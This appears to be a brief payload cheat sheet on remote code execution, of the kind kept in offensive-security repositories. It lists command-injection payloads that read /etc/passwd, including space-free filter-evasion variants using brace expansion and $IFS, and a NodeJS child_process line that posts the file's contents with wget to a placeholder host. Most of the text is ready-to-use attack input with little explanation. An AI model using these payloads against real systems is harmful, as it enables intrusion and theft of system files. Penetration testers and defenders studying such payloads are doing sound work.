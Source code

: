 # Remote Code Execution
Remote code execution is a security vulnerability that allows an attacker to execute codes from a remote server.
	

## Exploits
Normal code execution
```
cat /etc/passwd 
root:x:0:0:root:/root:/bin/bash 
daemon:x:1:1:daemon:/usr/sbin:/bin/sh 
bin:x:2:2:bin:/bin:/bin/sh 
sys:x:3:3:sys:/dev:/bin/sh
```


Code execution without space
```
{cat,/etc/passwd}
cat$IFS/etc/passwd
```

NodeJS Code execution
```
require('child_process').exec('wget+--post-data+"x=$(cat+/etc/passwd)"+HOST')
```

## Thanks to
* 